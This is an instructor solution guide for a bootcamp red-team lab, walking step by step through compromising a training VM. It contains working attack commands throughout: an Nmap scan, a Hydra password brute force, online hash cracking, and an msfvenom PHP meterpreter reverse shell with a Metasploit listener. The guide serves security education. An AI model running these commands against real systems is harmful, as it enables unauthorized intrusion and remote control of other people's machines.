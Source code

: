 ## Day 1 Solution Guide: Red Team

This solution guide should only be used to help students if they get stuck. Before helping students, remind them that penetration testing is usually done in teams that collaborate with one another.

If students are still struggling or stuck, consult the following guides and offer assistance.

While going through the solution file, please note that the IP addresses here need to be replaced your machine's IP addresses. 
  
### Step 1: Discover the IP address of the Linux server.

In order to find the IP address of the machine, you will need to use Nmap to scan your network.

- Open the terminal and run: `nmap 192.168.1.0/24`

   ![1_nmap.png](Images/nmap_scan_192_168_1_0_24.png)

From the Nmap scan we can see that port `80` is open. Open a web browser and type the IP address of the machine into the address bar.

- Open a web browser and navigate to `192.168.1.105` and press `enter`.

   ![2_web_discovery.png](Images/index_of_192_168_1_105.png)

### Step 2: Locate the hidden directory on the server.

- Navigate to the directory by typing: `192.168.1.105/company_folders/secret_folder`

- The directory asks for authentication in order to access it. Reading the authentication method, it says "For ashton's eyes only."

    ![4_password_protect.png](Images/company_folders_secret_folder_message.png)

    ![ashtons_eyes](Images/ashtons_eyes_only_login.png)

    

### Step 3: Brute force the password for the hidden directory.

Because the folder is password protected, we need to either guess the password or brute force into the directory. In this case, it would be much more efficient to use a brute force attack, specifically Hydra.

- Using Ashton's name, run the Hydra attack against the directory:
    
  - Type: `hydra -l ashton -P /usr/share/wordlists/rockyou.txt -s 80 -f -vV 192.168.1.105 http-get /company_folders/secret_folder`

      ![5_hydra_sytanx.png](Images/hydra_ashton_password.png)

- The brute force attack may take some time. Once it finishes, you'll find the username is `ashton` and the password is `leopoldo`.

- Go back to the web browser and use the credentials to log in. Click the file `connecting_to_webdav`.

   ![ashtons_login](Images/ashton_login_secret_folder.png)

- Located inside of the WebDAV file are instructions on how to connect to the WebDAV directory, as well the user's username and hashed password.

   ![webdav_instructions.png](Images/connect_to_corp_server_folder.png)
   
**Step 4: Connect to the server via Webdav**

There are several ways to break the password hash. Here, we simply used Crack Station, to avoid waiting for `john` to crack the password.

Navigate to `https://crackstation.net`; paste the password hash and fill out the CAPTCHA; and click **Crack Hashes**.

   ![webdav_hash.png](Images/cracked_ryan_password.png)

  - The password is revealed as: `linux4u`

### Step 5: Connect to the server via WebDAV.

This may be the most difficult part of the Red Team exercise, as it will require students to do external research on how to connect to the VM's WebDAV directory.

In addition, the instructions show an outdated IP address that the students will need to change to the IP address they discovered.

- In order to do so, students will already need to have the user name and following instructions from the `secret_folder`. Direct students to:
  - Open the `File System` shortcut from the desktop.
  - Click `Browse Network`.
  - In the URL bar, type: `dav://192.168.1.105/webdav`, and enter the credentials to log in.

    ![10_connect_to_webdav.png](Images/webdav_login.png)

### Step 6: Upload a PHP reverse shell payload.

- To set up the reverse shell, run:

  - `msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.1.90 lport=4444 >> shell.php`

   ![11_msfvenom.png](Images/msfvenom_php_reverse_shell_payload.png)

- Run this series of commands to set up a listener:

  - `msfconsole` to launch `msfconsole`.
  - `use exploit/multi/handler`
  - `set payload php/meterpreter/reverse_tcp`
  - `show options` and point out they need to set the `LHOST`.
  - `set LHOST 192.168.1.90`
  - `exploit`

    ![12_listener.png](Images/meterpreter_exploit_payload.png)

- Place the reverse shell onto the WebdDAV directory.

    ![13_implanting_the_reverse.png](Images/webdav_php_payload.png)

- Now that you're logged in, connect to the webdav folder by navigating to `192.168.1.105/webdav`. Use the credentials that you used before, `user:ryan pass:linux4u`.

  ![14_webdav.png](Images/ryan_login_webdav_browser.png)

- Navigate to where you first uploaded the reverse shell and click it to activate it. If it seems like the browser is hanging or loading, that means it has worked.
    - If it asks you if you'd like to save or open the PDF file, start again at the beginning of Step 5.

  ![15_activiating_the_shell.png](Images/webdav_directory_contents.png)

### Step 7: Find and capture the flag.

- On the listener, search for the file `flag.txt` located in the `root` directory. Students can use many techniques they have learned in order to find it.

- On the listener, search for the file `flag.txt` located in the root directory. Students can use many techniques they have learned to find it. One technique is to run:

  - Drop into a bash shell with the command: `shell`
  - Go to the `/` directory: `cd /`
  - Search the system for any files containing the phrase "flag" : `find . -iname flag.txt`

Students can read the file, once located, with `cat`.

   ![16_view_files](Images/meterpreter_shell_flag.png)


---
© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.
